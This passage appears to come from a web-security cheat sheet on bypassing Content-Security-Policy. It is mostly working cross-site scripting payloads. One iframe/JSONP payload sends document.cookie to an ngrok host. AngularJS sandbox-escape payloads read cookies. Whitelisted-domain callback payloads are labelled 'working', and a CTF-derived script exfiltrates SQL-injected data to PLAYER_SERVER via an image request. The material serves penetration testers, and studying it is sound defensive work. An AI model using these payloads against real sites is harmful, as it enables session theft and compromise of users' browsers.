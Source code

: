 ```
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
 
* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
AngularJS events
Depending on the specific policy, the CSP will block JavaScript events. However, AngularJS defines its own events that can be used instead. When inside an event, AngularJS defines a special $event object, which simply references the browser event object. You can use this object to perform a CSP bypass. On Chrome, there is a special property on the $event/event object called path. This property contains an array of objects that causes the event to be executed. The last property is always the window object, which we can use to perform a sandbox escape. By passing this array to the orderBy filter, we can enumerate the array and use the last element (the window object) to execute a global function, such as alert(). The following code demonstrates this:

1
2
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
AngularJS and whitelisted domain
1
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome git repo.

Working payloads:

1
2
"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
Bypass CSP with dangling markup
Read how here.

‘unsafe-inline’; img-src *; via XSS
1
default-src 'self' 'unsafe-inline'; img-src *;
'unsafe-inline' means that you can execute any script inside the code (XSS can execute code) and img-src * means that you can use in the webpage any image from any resource.

You can bypass this CSP exfiltrating the data via images (in this occasion the XSS abuses a CSRF where a page accessible by the bot contains a SQLi, and extract the flag via an image):

1
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
From: https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle

You could also abuse this configuration to load javascript code inserted inside an image. If for example, the page allows to load images from twitter. You could craft an special image, upload it to twitter and abuse the “unsafe-inline” to executea JS code (as a regular XSS) that will load the image, extract the JS from it and execute it: https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/

img-src *; via XSS (iframe) – Time attack
Notice the lack of the directive 'unsafe-inline'
```